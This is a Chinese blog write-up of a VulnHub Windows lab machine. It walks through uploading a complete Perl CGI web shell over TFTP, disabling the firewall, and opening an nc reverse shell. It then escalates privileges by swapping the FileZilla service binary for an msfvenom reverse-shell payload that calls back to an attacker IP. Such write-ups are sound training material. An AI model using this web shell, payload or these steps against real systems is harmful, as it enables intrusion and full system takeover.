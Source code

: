 +++
ShowToc = true
TocOpen = true
title = '0x076 dev randomscream'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



头一次打vulnhub的windows靶机，不太好配置啊：

# 端口扫描

![](/vulnhub_img/WEBRESOURCE87c4b538a137954d0474da79f0056849image.png)

![](/vulnhub_img/WEBRESOURCEa7bae8babbd95b78240e721eb612bd8bimage.png)

# 渗透

先看FTP：

![](/vulnhub_img/WEBRESOURCE9be74f55b58760de31ce413d42cca90aimage.png)

文件挺多的，但是都没读取权限：

![](/vulnhub_img/WEBRESOURCE9ecabaa1a20e5ca5f13be81ccd76b31fimage.png)

80端口也没扫出东西，这个root可能是80端口，然后看一下UPD的TFTP：

随便尝试了一下：

![](/vulnhub_img/WEBRESOURCE448020f7c8cf5c4aea20af6e81095a10image.png)

但是php反弹shell失败了，可能没有PHP的环境：

![](/vulnhub_img/WEBRESOURCE6c4c7f225f482364f45c161a3fa3ca44image.png)

这里查了一些资料，cgi程序：

![](/vulnhub_img/WEBRESOURCE00273facdd56f5b7ef383221571d8e06image.png)

![](/vulnhub_img/WEBRESOURCEff2c4b45f24113084178074905020a9cimage.png)

这些语言都可以实现，然后，poc如下：

```
use CGI;
use Cwd;
print CGI::header( -type => 'text/html' );
my $command = CGI::param('command');
my $pwd = CGI::param('pwd') || '';
my $password = CGI::param('password');
my $filename = CGI->script_name() ;

if ( $password ne 'yourpassword' ) {
    print "Please provide a valid password.\n";
    exit(0)
}

$pwd = $pwd eq '' ? `pwd` : $pwd;
my $home = Cwd::cwd();
chdir($pwd);

my $result='';

if ($command =~ /^cd\s*(.*)/) {
  my $dir = $1 or '';
  if ($dir eq '') {
    chdir($home);
  } else {
    chdir($dir);
  }
  $pwd = Cwd::cwd(); 
  $result = `ls -la`;
} else {
  $result = `$command`;
}

print <<EOF;
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta content="text/html; charset=ISO-8859-1" http-equiv="content-type"><title>console</title>
<script>
window.onload = function(){
        document.getElementById("command").focus();
        }

</script>
<style type="text/css">
.wide1 {
border-width: thick;
width: 100%;
height: 600px;
}
.wide2 {
setFocus;
border-width: thick;
width: 100%;
}
</style>
</head><body>
<p>
Script: $filename PWD: $pwd <br/>
<textarea class="wide1" readonly="readonly" cols="1" rows="1" name="result">
$result
</textarea></p>
<form method="get" action="$filename" name="command">Command:&nbsp;
<input class="wide2" name="command" id="command"><br>
<input name="password" value="$password" type="hidden">
<input name="pwd" value="$pwd" type="hidden">
</form>
<br>
</body></html>
EOF

exit 0;
```

使用方式：

![](/vulnhub_img/WEBRESOURCEca9908bc2110e591604f0f1cc23f6231image.png)

查看防火墙状态：

```
netsh firewall show state
```

关闭防火墙：

```
net stop sharedaccess
sc config sharedaccess status= disable
```

![](/vulnhub_img/WEBRESOURCE1bb0dd1611e8e849a5f695a4531ddc42image.png)

![](/vulnhub_img/WEBRESOURCE81f72ac8287e468ba005f63de5c41bfaimage.png)

上传nc.exe，反弹shell：

![](/vulnhub_img/WEBRESOURCEd49c2ea128ddd72a9f7541ea30ef5887image.png)

![](/vulnhub_img/WEBRESOURCEbffe235cfd11a80ac519215e61870c1dimage.png)

# 提权

windows单机提权确实比较少：

tasklist /V查看进程信息：

![](/vulnhub_img/WEBRESOURCE097209197bac6dc42109f59046d31c9aimage.png)

net start查看服务列表：

![](/vulnhub_img/WEBRESOURCE2ac8d11ed1995f05c9d1615504ac9cd5image.png)

dir /s | findstr "FileZilla server.exe"

查询FileZilla server.exe文件：

![](/vulnhub_img/WEBRESOURCE8e0c1efebf6bb3de3b4ea3fef4715c9aimage.png)

生成木马，上传：

这种格式的木马可以直接用NC监听：

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.5.66 LPORT=8889 -f exe > reverse_sys_tcpshell.exe
```

![](/vulnhub_img/WEBRESOURCE8d1c7a2c8ab045436d83b1e9c92a423dimage.png)

记得改成binary

![](/vulnhub_img/WEBRESOURCEf2447ad16b2bb8da5925d4ea317e1b57image.png)

停止服务：

net stop "FileZilla Server FTP server"

![](/vulnhub_img/WEBRESOURCEf0ac952f59bed484ec18f4d2ce103eceimage.png)

覆盖服务：

![](/vulnhub_img/WEBRESOURCE9493d9cc2aec523dd6b54f9c3b6eadedimage.png)

开启监听，然后启动服务：

net start "FileZilla Server FTP server"

![](/vulnhub_img/WEBRESOURCE523cb1dcfb483fe1f9a7869787b6d80aimage.png)

![](/vulnhub_img/WEBRESOURCEd61176b54cab97e1686adcabf6f1f1f2image.png)

运行不了whoami，只能通过这种进程的方式来证明权限：

![](/vulnhub_img/WEBRESOURCEca6d440140c94f45f82614dd08cee018image.png)